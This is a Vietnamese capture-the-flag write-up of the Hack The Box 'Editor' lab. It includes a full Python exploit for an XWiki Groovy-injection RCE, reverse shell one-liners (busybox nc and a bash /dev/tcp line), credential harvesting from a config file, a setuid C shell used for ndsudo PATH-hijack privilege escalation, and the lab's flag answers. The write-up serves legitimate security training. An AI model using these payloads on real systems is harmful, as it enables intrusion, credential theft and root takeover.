 ```yaml
---
title: HTB Editor
published: 2025-08-20
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: true
image: "/src/content/posts/assets/editor.png"
---
```

# HTB Labs: Editor 
## I. User flag
Đến với lab việc đầu tiên ta sẽ recon trước bằng nmap 
![image](https://hackmd.io/_uploads/SyS02j8Kge.png)
Ta thấy có 2 service web ở port `80` và `8080` và 1 `ssh`. Giờ mình sẽ kiểm trả ở port `80` trước. Trước đó thì ta cần update tên miền vào file `/etc/hosts` trước
![image](https://hackmd.io/_uploads/rJC21h8Kgg.png)
Nhìn chung đây là một trang sản phẩm cho người dùng có thể tải `Code Editor` về máy và tìm kiếm thì mình không thấy điểm nào để có thể inject input vào nên tạm thời sẽ đi đến với port `8080`
![image](https://hackmd.io/_uploads/S1v74HDYgg.png)
Ta thấy đây là một trang dùng `xwiki` để giới thiệu về tool `Simplist code` ở phía trang port `80`. Có một vài trường và path đáng để xem xét. Ở bên dưới ta thấy rằng phiên bản `xwiki` là `XWiki Debian 15.10.8`
![image](https://hackmd.io/_uploads/SJh04Bvtle.png)
Mình sẽ check sploit bằng [exploit-db](https://www.exploit-db.com/) để xem có bản khai thác hay `POC` nào được public không. Ta thấy được có bản `CVE` đã công bố 2025 về lỗ hỏng của version này
![image](https://hackmd.io/_uploads/S1l8LSwtxl.png)

```python 

# Exploit Title: XWiki Platform - Remote Code Execution
# Exploit Author: Al Baradi Joy
# Exploit Date: April 6, 2025
# CVE ID: CVE-2025-24893
# Vendor Homepage: https://www.xwiki.org/
# Software Link: https://github.com/xwiki/xwiki-platform
# Version: Affected versions up to and including XWiki 15.10.10
# Tested Versions: XWiki 15.10.10
# Vulnerability Type: Remote Code Execution (RCE)
# CVSS Score: 9.8 (Critical)
# CVSS Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
# Description:
# XWiki Platform suffers from a critical vulnerability where any guest user
can
# execute arbitrary code remotely through the SolrSearch endpoint. This can
lead
# to a full server compromise, including the ability to execute commands on
the
# underlying system. The vulnerability impacts the confidentiality,
integrity,
# and availability of the XWiki installation. The issue has been patched in
XWiki
# versions 15.10.11, 16.4.1, and 16.5.0RC1.
# Proof of Concept: Yes
# Categories: XWiki, Remote Code Execution, CVE-2025, RCE
# References:
# - GHSA Advisory: https://github.com/advisories/GHSA-rr6p-3pfg-562j
# - NVD CVE Details: https://nvd.nist.gov/vuln/detail/CVE-2025-24893
# - GitHub Exploit Link:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py

import requests

# Banner
def display_banner():
print("="*80)
print("Exploit Title: CVE-2025-24893 - XWiki Platform Remote Code
Execution")
print("Exploit Author: Al Baradi Joy")
print("GitHub Exploit:
https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py")
print("="*80)

# Function to detect the target protocol (HTTP or HTTPS)
def detect_protocol(domain):
https_url = f"https://{domain}"
http_url = f"http://{domain}"

try:
response = requests.get(https_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTPS: {https_url}")
return https_url
except requests.exceptions.RequestException:
print("[!] HTTPS not available, falling back to HTTP.")

try:
response = requests.get(http_url, timeout=5, allow_redirects=True)
if response.status_code < 400:
print(f"[✔] Target supports HTTP: {http_url}")
return http_url
except requests.exceptions.RequestException:
print("[✖] Target is unreachable on both HTTP and HTTPS.")
exit(1)

# Exploit function
def exploit(target_url):
target_url = detect_protocol(target_url.replace("http://",
"").replace("https://", "").strip())
exploit_url =
f"{target_url}/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22cat%20/etc/passwd%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"

try:
print(f"[+] Sending request to: {exploit_url}")
response = requests.get(exploit_url, timeout=10)

# Check if the exploit was successful
if response.status_code == 200 and "root:" in response.text:
print("[✔] Exploit successful! Output received:")
print(response.text)
else:
print(f"[✖] Exploit failed. Status code:
{response.status_code}")

except requests.exceptions.ConnectionError:
print("[✖] Connection failed. Target may be down.")
except requests.exceptions.Timeout:
print("[✖] Request timed out. Target is slow or unresponsive.")
except requests.exceptions.RequestException as e:
print(f"[✖] Unexpected error: {e}")

# Main execution
if __name__ == "__main__":
display_banner()
target = input("[?] Enter the target URL (without http/https):
").strip()
exploit(target)
            
```
Lỗi nằm trong macro SolrSearch của XWiki. Khi người dùng gửi truy vấn tìm kiếm với `media=rss`, dữ liệu này được chèn trực tiếp vào `template`. `Template` này cho phép chèn và thực thi mã `Groovy`, nhưng không có cơ chế lọc/chặn thích hợp.
Kết quả: kẻ tấn công có thể inject Groovy script → được thực thi trực tiếp trên server.

Ta thấy được đoạn payload rce là `}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}`. Ở đây sẽ dùng `}}}` để out khỏi context ban đầu sau đó dùng macro `async` để đồng bộ hóa và chèn thêm macro `groovy` vào thực hiện `RCE` để đọc file `/etc/passwd`. Giờ ta sẽ tiến hành inject thử với lệnh
Mình sẽ test thử với lệnh `id` về cơ bản để check xem quyền của ta như thế nào, có thể là root hay không. Như ta thấy thì kết quả trả về khá nhiều data nhưng ta chỉ cần vô theo các dòng có `rss`
![image](https://hackmd.io/_uploads/SJLj0HDYxe.png)
Ta có thể thấy được kết quả đã thành công có thể thực hiện được `RCE`. Giờ mình sẽ check thử xem có thể đưa `rev shell` vào không để thuận tiện dùng lệnh
Ta có thể dùng `'busybox nc 10.10.10.10 9001 -e /bin/bash'` để rev shell. Ta nên thêm busybox để có thể chạy `nc -e` thay vì chạy lệnh `bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/4444 0>&1'` vì sẽ có nhiều target không có bash đầy đủ và cũng không hỗ trợ `/dev/tcp`
![image](https://hackmd.io/_uploads/HyXkMuPtgg.png)
Ta đã thành công thực hiện `rev shell`, giờ là đến việc tìm `user flag` . Sau một lúc tìm hiểu về `XWiki` ta thấy được có một file đặc biệt `/usr/local/xwiki/webapps/xwiki/WEB-INF/hibernate.cfg.xml`. File này là nơi `XWiki` dùng để kết nối với database của server để thực hiện xử lý các dữ liệu liên quan đến `login, logout, reg,...` 
Do `dir` không giống nhau nên mình check thử thì thấy được file nằm ở `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`
![image](https://hackmd.io/_uploads/HJIFBdwKxl.png)
Ta có thể thấy được thông tin `password` bằng lệnh `cat /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml | grep "password"` 
![image](https://hackmd.io/_uploads/Bkh9D_wFll.png)
Cộng thêm với username là `oliver` ta có thể login vào `ssh server` để lấy shell
![image](https://hackmd.io/_uploads/SkA6vuDFlx.png)
> 3fd90dfed2869746543d3f036734541d

## II. Root flag
Đến với phần lấy `root flag`, thì việc cần làm là check trước các bước đầu tiên là `enum SUID` với `find / -perm -4000 2>/dev/null`
![image](https://hackmd.io/_uploads/ry-29OvYlg.png)
Ta thấy được đáng chú ý nhất là `ndsudo` từng dính `CVE-2024-32019 (Untrusted Search Path)`. Lỗ hổng phát sinh khi `ndsudo` được đóng gói dưới dạng `SUID root` (root-owned và có bit SUID), nhưng lại tìm các lệnh thông qua biến môi trường `PATH`, điều này dẫn đến tình huống `Untrusted Search Path`.
Mình tìm được `POC` cụ thể [ở đây](https://github.com/AzureADTrent/CVE-2024-32019-POC)
ta sẽ dùng file c 
```c 
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
Và sau đó dùng gcc compile thành binary do ở phía `ssh server` không có `gcc` nên ta sẽ dùng ở local. Tiếp đến để truyền nhanh lên `ssh server` mà không cần mở server ở local ta có thể dùng `scp`
![image](https://hackmd.io/_uploads/HJnW2uvKxg.png)
Giờ ta sẽ set `PATH` biến mội trường cho nó và cấp quyền thực thi
![image](https://hackmd.io/_uploads/S1X8huPFel.png)
Sau cùng là sẽ gọi lệnh `./ndsudo nvme-list`
![image](https://hackmd.io/_uploads/H1qXT_vKge.png)
Giờ ta đã có quyền root giờ chỉ cần đến root và lấy flag
![image](https://hackmd.io/_uploads/B1aHTOvKeg.png)

> 396ef747a71039bd66d36d2d75c4966f

